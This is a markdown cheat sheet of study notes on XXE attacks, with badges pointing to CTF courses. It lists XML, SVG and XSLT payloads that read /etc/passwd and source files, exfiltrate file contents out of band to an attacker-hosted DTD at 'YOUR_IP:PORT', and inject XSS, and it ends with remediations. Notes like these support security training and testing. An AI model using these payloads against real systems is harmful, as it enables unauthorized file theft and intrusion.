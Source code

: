 # XML External Entity (XXE)

[![owasptop10](../../../../_badges/thm/owasptop10.svg)](https://tryhackme.com/room/owasptop10)
[![mustacchio](../../../../_badges/thm-p/mustacchio.svg)](https://tryhackme.com/room/mustacchio)
[![xxe_injection](../../../../_badges/poat/xxe_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
[![web_attacks](../../../../_badges/htb/web_attacks.svg)](https://academy.hackthebox.com/course/preview/web-attacks)

<div class="row row-cols-lg-2"><div>

An XML External Entity (XXE) is an attack exploiting [XML](/programming-languages/others/data/xml.md) parsers used by applications. We create a custom [DTD](/programming-languages/others/data/xml.md#document-type-definition-dtd-) doing something malicious.

* Arbitrary file access <small>(passwd, id_rsa, etc.)</small>
* Perform a DDoS attack <small>(often patched in modern web servers)</small>
* Perform a [SSRF attack](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md)
* Perform a [XSS attack](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md)

There are two kind of XXE

* **In-band**: same channel to attack and fetch results
* **Out of Band/Blind**: different channels to attack and fetch results
</div><div>

For instance, we define an entity called `poc` in the DTD that is defined by the string `Hello, World!`. A vulnerable XML parser will replace the anchor `&poc;` inside the root element with the string.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY poc "Hello, World!">]>
<root>&poc;</root>
```

⚠️ This is not the only PoC/sign of a possible XXE.

📚 As a reminder, [SVG](https://en.wikipedia.org/wiki/SVG) are XML files too.
</div></div>

<hr class="sep-both">

## XXE XML Payloads

<div class="row row-cols-lg-2"><div>

When using in-band XXE, inject the anchor in a tag that is displayed.

#### Stealing files

We can use the `file://` protocol to read simple files.

```xml!
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<root>&xxe;</root>
```

But it doesn't work when the file contains XML tags. We can use [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md) to read PHP and non PHP files on a PHP web server.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
<root>&xxe;</root>
```

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
<root>&xxe;</root>
```

Alternatively, we can try to use CDATA, but due to some security protections in most XML parsers, you need to host the payload on your server to be allowed to merge XML parameter entities (`%`).

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % dtd SYSTEM "http://YOUR_IP:PORT/xxe.dtd"> %dtd;]>
<root>&xxe;</root>
```

And expose the following XML at `http://OUR_IP:PORT/xxe.dtd`:

```xml!
<!ENTITY % begin "<![CDATA[">
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % end "]]>">
<!ENTITY xxe "%begin;%file;%end;">
```
</div><div>

#### XSS attack

If the XML is displayed, you can try an XSS attack using CDATA.

```xml!
<?xml version="1.0"?>
<root><![CDATA[<script>console.log('test')</script>]]></root>
```

#### Out of Band XSS

[![wordpresscve202129447](../../../../_badges/thm-p/wordpresscve202129447.svg)](https://tryhackme.com/r/room/wordpresscve202129447)

If we cannot see any output, we may first try to see if we can see error messages <small>(missing/invalid tag, reference, etc.)</small> or connect to our server.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % dtd SYSTEM "http://YOUR_IP:PORT/xxe.dtd"> %dtd;]>
<root>&xxe;</root>
```

And expose the following XML at `http://OUR_IP:PORT/xxe.dtd` if you can see error messages:

```xml!
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
%error;
```

Or expose the following XML at `http://OUR_IP:PORT/xxe.dtd`.

```xml!
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % oob "<!ENTITY &#x25; payload SYSTEM 'http://YOUR_IP:PORT/?payload=%file;'>">
%oob;
%payload;
```

📚 We could also try DNS exfiltration (`<payload>.example.com`).
</div></div>

<hr class="sep-both">

## XXE SVG Payloads

<div class="row row-cols-lg-2"><div>

#### Stealing files

[![wordpresscve202129447](../../../../_badges/thm-p/wordpresscve202129447.svg)](https://tryhackme.com/r/room/wordpresscve202129447)

We can use the `file://` protocol to read simple files. For a SVG, we can use the following code <small>(assuming `attr` is displayed)</small>:

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```

But it doesn't work when the file contains XML tags. We can use [PHP wrappers](/cybersecurity/red-team/s3.exploitation/vulns/web/files/wrappers.md) to read PHP and non-PHP files on a PHP web server.

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

```xml!
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<svg width="400" height="200" xmlns="http://www.w3.org/2000/svg">
<attr>&xxe;</attr>
</svg>
```

📚 [List of interesting files](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md) to steal.
</div><div>

#### XSS attack

If the SVG is displayed, we may be able to perform a XSS attack.

```xml!
<svg width="100" height="100" xmlns="http://www.w3.org/2000/svg">
    <script type="text/javascript">/* ... */</script>
</svg>
```
</div></div>

<hr class="sep-both">

## XSLT Transformations

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![xslt_injection](../../../../_badges/poat/xslt_injection.svg)](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/)
[![xslt_ssi](../../../../_badges/hacktricks/xslt_ssi.svg)](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations)
[![xslt_code_execution](../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)

<div class="row row-cols-lg-2"><div>

Transformations may be applied on the XML, usually when transforming XML documents into HTML, another XML document, or PDF. If the XSLT parser is vulnerable, we may be able to execute code.

An example of a base template for a PHP XSLT wrapper:

```xml!
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<!-- add some payload here -->
</body>
</html>
```
</div><div>

While common PHP payloads are:

```xml!
<xsl:value-of select="php:function('readfile','index.php')" />
<xsl:copy-of name="xxx" select="php:function('file_get_contents', 'index.php')">
<xsl:value-of select="php:function('opendir','.')"/>
<xsl:value-of select="php:function('readdir')"/>
<xsl:copy-of name="xxx" select="php:function('assert', '1==1')" />
```

📚 Common XSLT parsers are: LibXSLT, Xalan, and Saxon.
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### Word Documents Metadata

Refer to [CVE-2019-13358](https://nvd.nist.gov/vuln/detail/CVE-2019-13358) for an example.

```ps
$ unzip xxx.docx
$ nano word/document.xml
$ zip yyy.docx word/document.xml
```
</div><div>

#### WAV File iXML Metadata

[![wordpresscve202129447](../../../../_badges/thm-p/wordpresscve202129447.svg)](https://tryhackme.com/r/room/wordpresscve202129447)

Refer to [CVE-2021-29447](https://nvd.nist.gov/vuln/detail/CVE-2021-29447) for an example.

```ps
$ cat xxx.wav
RIFFXXXXWAVEBBBBiXML<XML HERE>
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `PUBLIC` instead of `SYSTEM`?

Tools

* [XXEinjector](https://github.com/enjoiz/XXEinjector) <small>(1.6k ⭐, 2020 🪦)</small>
* [xxexploiter](https://github.com/luisfontes19/xxexploiter) <small>(0.6k ⭐, 2022 🪦)</small>
</div><div>

Remediations

* Disallow external DTDs
* Disallow external entities
* Disallow XML parameters entities
* Disable XInclude
* Disable Self Reference/Entity Loops
</div></div>
